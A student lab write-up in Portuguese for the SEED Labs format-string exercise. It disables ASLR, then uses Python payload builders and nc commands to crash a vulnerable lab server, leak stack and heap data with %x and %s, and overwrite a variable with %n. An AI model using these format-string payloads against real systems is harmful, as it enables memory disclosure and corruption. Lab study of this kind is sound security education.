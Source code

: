 # Trabalho realizado na Semana #5

## **Seed Labs**

## Preparação

### Desativar <em>countermeasures<em>:

Desativar <em>Address Space Randomization<em>:

    sudo sysctl -w kernel.randomize_va_space=0

StackGuard e Non-Executable Stack podem ser desativadas na compilação.

## Tarefa 1

**Objetivo:** Forçar o crash do programa

**Conclusão** Para causar o crash do programa basta enviar "%s". Ao enviar o %s o programa vai procurar na stack uma string que não existe, causando um crash.

    echo %s | nc 10.9.0.5 9090

## Tarefa 2A

**Objetivo** Imprimir dados da stack do programa do servidor.

**Procedimento** Descobrir quantos %x são necessários para imprimir a variável que contém o nosso input.
Utilizando o seguinte código auxiliar python, podemos verificar que com 64 %x, o nosso input é impresso.
```python
    s = "AAAA" + "(%x)"*64
    fmt  = (s).encode('latin-1')

    with open('stack', 'wb') as f:
    f.write(fmt)
```

```sh
    cat stack | nc 10.9.0.5 9090
```
Output no server:

```
    server-10.9.0.5 | AAAA(11223344)(1000)(8049db5)(80e5320)(80e61c0)(ffcd8bf0)(ffcd8b18)(80e62d4)(80e5000)(ffcd8bb8)(8049f7e)(ffcd8bf0)(0)(64)(8049f47)(80e5320)(4d8)(ffcd8cf4)(ffcd8bf0)(80e5320)(935f720)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(0)(5975b700)(80e5000)(80e5000)(ffcd91d8)(8049eff)(ffcd8bf0)(104)(5dc)(80e5320)(0)(0)(0)(ffcd92a4)(0)(0)(0)(104)(41414141)The target variable's value (after):  0x11223344
    server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

Como é possível observar pelo output do servidor, o nosso input, "AAAA", (41414141), é impresso, utilizando 64 %s.


## Tarefa 2B

**Objetivo** Imprimir dados da heap do programa do servidor.

**Procedimento** Sabendo que com 64 %x podemos ter acesso ao valor do nosso input, podemos colocar o endereço que pretendemos ler no inicio da string de input.

```py
    #Read from heap T2.B
    s = "%64$s"
    fmt  = (s).encode('latin-1')
    content[4:len(fmt)] = fmt
    number  = 0x080b4008 #secret message address
    content[0:4]  =  (number).to_bytes(4,byteorder='little')
    with open('heap', 'wb') as f:
    f.write(content)
```
A string de input será "%64$s\x08\x40\x0b\x08".

```
    cat heap | nc 10.9.0.5 9090
```
Output no server:
```
    server-10.9.0.5 |@
                    (A secret message
    server-10.9.0.5 | )
```
Como pretendido, a mensagem é impressa com sucesso.


## Tarefa 3A

**Objetivo** Alterar o valor da variável target.

**Procedimento** 

```py
    s = "%64$n"
    fmt  = (s).encode('latin-1')
    content[4:len(fmt)] = fmt
    number  = 0x080e5068 #target variable address
    content[0:4]  =  (number).to_bytes(4,byteorder='little')

    # "\x68\x50\x05\x08%64$n"
    with open('writeheap', 'wb') as f:
    f.write(content)
```

```
    cat writeheap | nc 10.9.0.5 9090
```

Output no server:
```
    server-10.9.0.5 | hThe target variable's value (after):  0x00000004
    server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

A string de input será:  **"\x68\x50\x05\x08%64$n"**.<br/>
Ao enviar "%64$n" na format string, o %n pega no endereço na posição 64 da stack e reescreve o seu conteúdo com o número de bytes impressos.
Isto faz com que seja escrito o valor 0x4 no endereço de target, que é o comprimento do próprio endereço.

## Tarefa 3B

**Objetivo** Alterar o valor da variável target para 0x00005000

**Procedimento**

```py
    content = bytearray(0x00 for i in range(N))
    s = "%64$20476x" + "%64$n"
    fmt  = (s).encode('latin-1')
    content[4:len(fmt)] = fmt
    number  = 0x080e5068 #targer variable address
    content[0:4]  =  (number).to_bytes(4,byteorder='little')
                    
    with open('writeheap2', 'wb') as f:
    f.write(content)
```

A string de input será: **"\x68\x50\x05\x08%64$20476x%64$n"**. <br>
O número de bytes escritos que queremos será 0x5000 em decimal: 20480.
Ao utilizar "%64$20476x" adicionamos 20476 caracteres vazios, que somando com o comprimento do endereço de memória, que é 4, obtemos o número de bytes pretendido.
Ao enviar "%64$n" na format string, o %n pega no endereço na posição 64 da stack e reescreve o seu conteúdo com o número de bytes impressos.

```
    cat writeheap2 | nc 10.9.0.5 9090
```

```
    server-10.9.0.5 | h



    ...



    80e5068The target variable's value (after):  0x00005000
```